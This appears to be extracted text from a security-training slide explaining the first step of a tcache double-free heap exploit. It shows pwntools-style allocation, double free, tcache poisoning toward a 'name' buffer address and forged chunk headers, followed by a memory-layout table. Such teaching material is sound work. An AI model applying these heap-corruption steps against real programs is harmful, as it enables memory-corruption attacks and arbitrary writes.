

name - 0x010
...
Step1 ： Double Free in tcache bin

ptr = malloc(0x50)
--> 'aaaaaaaa'

free(ptr)
free(ptr)

ptr = malloc(0x50)
--> p64(name_addr + 0x500 - 0x10))

ptr = malloc(0x50)
--> 'bbbbbbbb'

ptr = malloc(0x50)
--> p64(0) + p64(0x21)
--> p64(0) * 3 + p64(0x21)
name - 0x008
...
...
my_name
...
my_name
ptr
name + 0x4F0
...
....
...
...
...
...
name + 0x4F0
0
name + 0x4F8
0x21
name + 0x500
0
name + 0x508
0
name + 0x510
0
name + 0x518
0x21